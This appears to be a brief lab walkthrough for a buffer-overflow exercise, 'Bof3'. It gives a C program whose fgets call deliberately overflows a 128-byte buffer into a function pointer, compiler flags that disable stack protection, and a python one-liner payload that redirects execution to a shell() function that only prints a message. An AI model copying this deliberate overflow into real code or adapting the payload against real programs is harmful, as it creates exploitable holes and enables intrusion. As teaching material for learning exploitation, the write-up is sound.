 ## Bof3
Source Code: <br>
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void shell() {
    printf("You made it! The shell() function is executed\n");
}

void sup() {
    printf("Congrat!\n");
}

void main()
{ 
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```
<br>

Complie by gcc: <br>
`gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2 ` 
<br>
![complie bof3](./imgs/bof3_1.png)
<br>

Use `objdump -d bof3.out | grep shell` to find `shell` address:
<br>

![shell address](./imgs/bof3_2.png)

<br>

Run program and put `128 bytes + shell address` to character array `buf` to buffer overflow to `*func`:
<br>

`echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out`
<br>

![run program](./imgs/bof3_3.png)